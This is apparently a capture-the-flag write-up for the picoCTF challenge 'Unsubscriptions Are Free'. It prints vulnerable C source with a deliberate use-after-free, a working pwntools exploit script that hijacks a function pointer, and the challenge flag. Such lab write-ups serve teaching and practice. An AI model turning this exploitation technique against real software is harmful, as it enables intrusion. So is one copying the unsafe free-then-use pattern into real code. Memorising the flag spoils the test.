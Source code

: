 # Unsubscriptions Are Free : Binary Exploitation

Check out my new video-game and spaghetti-eating streaming channel on Twixer! [program](vuln) and get a flag. [source](vuln.c) `nc mercury.picoctf.net 48259`
 
Author : thelshell

# Solution

For now, try executing it.
```
$ nc mercury.picoctf.net 48259
Welcome to my stream! ^W^
==========================
(S)ubscribe to my channel
(I)nquire about account deletion
(M)ake an Twixer account
(P)ay for premium membership
(l)eave a message(with or without logging in)
(e)xit
s
OOP! Memory leak...0x80487d6
Thanks for subsribing! I really recommend becoming a premium member!
Welcome to my stream! ^W^
==========================
(S)ubscribe to my channel
(I)nquire about account deletion
(M)ake an Twixer account
(P)ay for premium membership
(l)eave a message(with or without logging in)
(e)xit
p
Membership pending... (There's also a super-subscription you can also get for twice the price!)
Welcome to my stream! ^W^
==========================
(S)ubscribe to my channel
(I)nquire about account deletion
(M)ake an Twixer account
(P)ay for premium membership
(l)eave a message(with or without logging in)
(e)xit
``` 
Check the source code.
```c vuln.c
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <ctype.h>

#define FLAG_BUFFER 200
#define LINE_BUFFER_SIZE 20


typedef struct {
	uintptr_t (*whatToDo)();
	char *username;
} cmd;

char choice;
cmd *user;

void hahaexploitgobrrr(){
 	char buf[FLAG_BUFFER];
 	FILE *f = fopen("flag.txt","r");
 	fgets(buf,FLAG_BUFFER,f);
 	fprintf(stdout,"%s\n",buf);
 	fflush(stdout);
}

char * getsline(void) {
	getchar();
	char * line = malloc(100), * linep = line;
	size_t lenmax = 100, len = lenmax;
	int c;
	if(line == NULL)
		return NULL;
	for(;;) {
		c = fgetc(stdin);
		if(c == EOF)
			break;
		if(--len == 0) {
			len = lenmax;
			char * linen = realloc(linep, lenmax *= 2);

			if(linen == NULL) {
				free(linep);
				return NULL;
			}
			line = linen + (line - linep);
			linep = linen;
		}

		if((*line++ = c) == '\n')
			break;
	}
	*line = '\0';
	return linep;
}

void doProcess(cmd* obj) {
	(*obj->whatToDo)();
}

void s(){
 	printf("OOP! Memory leak...%p\n",hahaexploitgobrrr);
 	puts("Thanks for subsribing! I really recommend becoming a premium member!");
}

void p(){
  	puts("Membership pending... (There's also a super-subscription you can also get for twice the price!)");
}

void m(){
	puts("Account created.");
}

void leaveMessage(){
	puts("I only read premium member messages but you can ");
	puts("try anyways:");
	char* msg = (char*)malloc(8);
	read(0, msg, 8);
}

void i(){
	char response;
  	puts("You're leaving already(Y/N)?");
	scanf(" %c", &response);
	if(toupper(response)=='Y'){
		puts("Bye!");
		free(user);
	}else{
		puts("Ok. Get premium membership please!");
	}
}

void printMenu(){
 	puts("Welcome to my stream! ^W^");
 	puts("==========================");
 	puts("(S)ubscribe to my channel");
 	puts("(I)nquire about account deletion");
 	puts("(M)ake an Twixer account");
 	puts("(P)ay for premium membership");
	puts("(l)eave a message(with or without logging in)");
	puts("(e)xit");
}

void processInput(){
  scanf(" %c", &choice);
  choice = toupper(choice);
  switch(choice){
	case 'S':
	if(user){
 		user->whatToDo = (void*)s;
	}else{
		puts("Not logged in!");
	}
	break;
	case 'P':
	user->whatToDo = (void*)p;
	break;
	case 'I':
 	user->whatToDo = (void*)i;
	break;
	case 'M':
 	user->whatToDo = (void*)m;
	puts("===========================");
	puts("Registration: Welcome to Twixer!");
	puts("Enter your username: ");
	user->username = getsline();
	break;
   case 'L':
	leaveMessage();
	break;
	case 'E':
	exit(0);
	default:
	puts("Invalid option!");
	exit(1);
	  break;
  }
}

int main(){
	setbuf(stdout, NULL);
	user = (cmd *)malloc(sizeof(user));
	while(1){
		printMenu();
		processInput();
		//if(user){
			doProcess(user);
		//}
	}
	return 0;
}
```
As the title suggests, by exploiting a Use After Free (UAF) vulnerability to execute the `hahaexploitgobrrr()` function, we can obtain the flag.

Calling `free(user)` with the `I` option, then using `L` to execute `malloc(8)` and write the address of the `hahaexploitgobrrr()` function (0x80487d6), causes `doProcess(user);` to be called subsequently, triggering the UAF.

Check the security mechanism.
```
$ checksec vuln
[*] '/home/colza-picoctf/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```

Execution code below:
```python solve.py
from pwn import *

p = remote('mercury.picoctf.net', 48259)

p.sendlineafter(b"(e)xit\n", b"I")
p.sendlineafter(b"?\n", b"Y")
p.sendlineafter(b"(e)xit\n", b"L")
p.sendlineafter(b":\n", p32(0x80487d6))

p.interactive()
```
Execute it.
```
$ python solve.py
[+] Opening connection to mercury.picoctf.net on port 48259: Done
[*] Switching to interactive mode
picoCTF{d0ubl3_j30p4rdy_cff1f12d}
```

Get the flag!

`picoCTF{d0ubl3_j30p4rdy_cff1f12d}`
